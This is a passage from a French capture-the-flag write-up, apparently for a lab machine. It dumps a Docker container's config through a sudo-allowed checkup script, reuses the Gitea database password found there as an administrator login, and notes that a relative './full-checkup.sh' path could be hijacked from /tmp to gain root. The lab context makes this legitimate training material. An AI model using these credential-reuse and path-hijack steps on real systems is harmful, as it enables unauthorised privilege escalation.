 ```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{ json .Config}}' 960873171e2e
<.py docker-inspect '{{ json .Config}}' 960873171e2e
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

En utilisant `jq`, voici un affichage plus digeste de la partie intéressante.

```
...
"Env": [
    "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "USER=git",
    "GITEA_CUSTOM=/data/gitea"
  ],
...
```

Le mot de passe est réutilisé pour se connecter sur ce site gitea avec administrator / yuiu1hoiu4i5ho1uh.

Dans gitea je peux maintant lire le contenant du script initial : `system-checkup.py`

Je découvre grâce au code que l'option full-checkup lance un script `./full-checkup.sh`. Il est donc théoriquement possible de créer un `full-checkup.sh` malicieux, et de l'exécuter depuis n'importe quelle location. En l'occurrence depuis une location dans laquelle l'utilisateur a les droits d'écriture (/tmp par exemple). 

```
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```
